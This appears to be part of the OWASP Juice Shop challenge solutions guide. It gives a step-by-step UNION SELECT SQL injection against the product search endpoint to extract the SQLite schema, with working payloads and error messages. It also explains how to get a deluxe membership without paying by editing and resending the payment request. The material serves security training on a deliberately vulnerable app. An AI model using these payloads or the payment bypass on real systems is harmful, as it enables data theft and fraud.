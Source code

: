 1. From any errors seen during previous SQL Injection attempts you should know that SQLite is the relational database in use.
2. Check [https://www.sqlite.org/faq.html](https://www.sqlite.org/faq.html) to learn in "(7) How do I list all tables/indices contained in an SQLite database" that the schema is stored in a system table `sqlite_master`.
3. You will also learn that this table contains a column `sql` which holds the text of the original `CREATE TABLE` or `CREATE INDEX` statement that created the table or index. Getting your hands on this would allow you to replicate the entire DB schema.
4. During the [Order the Christmas special offer of 2014](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_order_the_christmas_special_offer_of_2014) challenge you learned that the `/rest/products/search` endpoint is susceptible to SQL Injection into the `q` parameter.
5. The attack payload you need to craft is a `UNION SELECT` merging the data from the `sqlite_master` table into the products returned in the JSON result.
6. As a starting point we use the known working `'))--` attack pattern and try to make a `UNION SELECT` out of it
7. Searching for `')) UNION SELECT * FROM x--` fails with a `SQLITE_ERROR: no such table: x` as you would expect.
8. Searching for `')) UNION SELECT * FROM sqlite_master--` fails with a promising `SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns` which least confirms the table name.
9. The next step in a `UNION SELECT`attack is typically to find the right number of returned columns. As the *Search Results* table in the UI has 3 columns displaying data, it will probably at least be three. You keep adding columns until no more `SQLITE_ERROR` occurs (or at least it becomes a different one):
    1. `')) UNION SELECT '1' FROM sqlite_master--` fails with `number of result columns` error
    2. `')) UNION SELECT '1', '2' FROM sqlite_master--` fails with `number of result columns` error
    3. `')) UNION SELECT '1', '2', '3' FROM sqlite_master--` fails with `number of result columns` error
    4. (…)
    5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM sqlite_master--` *still fails* with `number of result columns` error
    6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` finally gives you a JSON response back with an extra element `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.
10. Next you get rid of the unwanted product results changing the query into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` leaving only the "`UNION`ed" element in the result set
11. The last step is to replace one of the fixed values with correct column name `sql`, which is why searching for `qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` solves the challenge.

### **Obtain a Deluxe Membership without paying for it**

1. If wallet is empty: a. Go to [http://localhost:3000/#/payment/deluxe](http://localhost:3000/#/payment/deluxe) and look at the available payment options for upgrading to a deluxe account b. Open devtools and inspect the pay button next to the "pay using wallet" option. c. Remove the disabled="true" attribute from the element to enable it. d. Switch to the network tab and devtools and click on the button to initiate payment e. See that there is a POST request sent, which only contains one parameter in the request payload, "paymentMode", which is set to "wallet". The response contains an error saying your wallet doesn't contain sufficient funds d. Right click on the request and select "edit and resend" e. Change the paymentMode parameter to an empty string and press send. This solves the challenge and juice-shop no longer knows where to deduct the money from
2. If wallet isn't empty: a. If your wallet contains funds, you cannot start a dummy transaction to inspect the request structure because then you would be automatically upgraded to deluxe. b. Set up a proxy like ZAP, Fiddler aur Burp Suite. c. Click on the pay button d. Intercept and edit the request as described above before forwarding it.
